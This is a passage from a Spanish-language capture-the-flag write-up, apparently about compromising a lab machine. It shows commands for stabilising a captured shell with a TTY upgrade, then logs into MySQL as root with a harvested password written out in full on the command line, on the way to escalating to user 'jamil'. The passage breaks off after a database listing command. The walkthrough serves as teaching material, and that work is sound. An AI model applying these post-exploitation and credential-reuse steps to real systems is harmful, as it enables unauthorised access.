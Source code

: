 Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user jamil

Recordemos que antes encontramos unas credenciales para conectarnos por `mysql`, vamos a probar a utilizarlas a nivel local.

```shell
mysql -h localhost -u root -pGu4rd14n_un1_1s_th3_b3st
```

Info:

```
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 959
Server version: 8.0.43-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Veremos que funciona, vamos a listar las `DDBBs` que haya:

```mysql
show databases;
```

Info:
